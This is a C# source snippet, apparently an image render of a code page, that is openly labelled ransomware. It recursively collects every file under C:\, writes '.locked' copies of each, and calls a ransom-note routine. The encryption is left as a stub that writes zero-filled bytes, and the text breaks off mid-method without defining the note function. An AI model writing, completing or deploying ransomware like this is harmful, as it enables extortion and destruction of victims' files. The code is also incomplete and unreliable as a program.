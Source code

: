 

```csharp

using System;

using System.IO;



public class Ransomware

{

    public static void Main()

    {

        string targetDirectory = "C:\\";

        string encryptedFileExtension = ".locked";

        string ransomNote = "READ_ME.txt";



        string[] targetFiles = Directory.GetFiles(targetDirectory, "*.*", SearchOption.AllDirectories);



        foreach (string file in targetFiles)

        {

            EncryptFile(file, encryptedFileExtension);

        }



        CreateRansomNote(targetDirectory, ransomNote);

    }



    public static void EncryptFile(string filePath, string encryptedFileExtension)

    {

        byte[] fileBytes = File.ReadAllBytes(filePath);

        byte[] encryptedBytes = new byte[fileBytes.Length];



        // Implement your encryption algorithm here



        string encryptedFilePath = filePath + encryptedFileExtension;

        File.WriteAllBytes(encryptedFilePath, encryptedBytes);

```